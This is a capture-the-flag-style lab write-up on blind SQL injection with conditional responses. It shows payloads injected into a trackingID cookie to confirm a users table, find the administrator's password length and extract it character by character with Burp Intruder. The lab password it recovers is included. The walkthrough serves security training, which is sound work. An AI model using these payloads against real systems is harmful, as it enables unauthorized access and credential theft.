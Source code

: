 # Blind SQL injection with conditional responses

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/1381a1af-ac2f-43ba-9a66-0ad5248f5e21)

## Solution

We see the welcome back message which verifies the usage of trackingID cookie.
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/7614b49d-11be-4c23-a3d4-707db20258f8)

We first check if the trackingID is valid which turns out to be true as we can see the welcome back message.
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/a4d4df17-cf4a-4742-a7a6-067ee103d76d)

Now we inject a SQL payload `'AND 1=0--` and in the response we can see the welcome back message and it can be confirmed that SQL is being used.
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/5efec87f-7947-48d5-b9c7-54ac582bdf7b)

Next we inject `'AND (SELECT 'x' FROM USERS LIMIT 1)='x'--` to see if there exist a table named `users` which successful.
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/41982629-76ee-41b7-9f4e-5dab0c45b914)

To check if there is a username as administrator by injecting `'AND (SELECT 'x' FROM USERS WHERE USERNAME = 'ADMINISTRATOR')='x'--`. Since we can see welcome back in the response we can confirm there is a user called administrator.
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/ccba717b-9b34-44e4-b368-751f19c65037)

Next step is finding out the length of the password for the administrator account. We first do a simple SQL injection `'AND (SELECT 'x' FROM USERS WHERE USERNAME='administrator' AND LENGTH(password)>1)='x'--`.
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/fb8e3f64-1d38-4c33-b41d-2cac44c19ad7)

Instead of doing the above injection manually we can use burp suite intruder and use a sniper attack to brute force the injection. In the response we can see that the password length is 20.
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/86c171ad-aa7f-40cd-a57f-001f5e47896d)

Next step is finding out the password. We can do this by the payload `'AND (SELECT SUBSTRING(PASSWORD,1,1) FROM USERS WHERE USERNAME = 'administrator') = 'a'--`. Here we can understand the first letter is not a.
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/509e65ea-1f59-4ce6-99b9-03119512701b)

Instead of doing this manually we can user intruder and use a cluster bomb attack to brute force the password. The retrieved password is `pca83q1cqyw69q2arcyt`.
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/4375a429-993a-4eb7-a98d-c0b3ebfe3b55)

By using the username as `administrator` and password as `pca83q1cqyw69q2arcyt` login into admin account was successful.
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/067e0c39-0c9e-4e59-ae39-3be435c39a46)
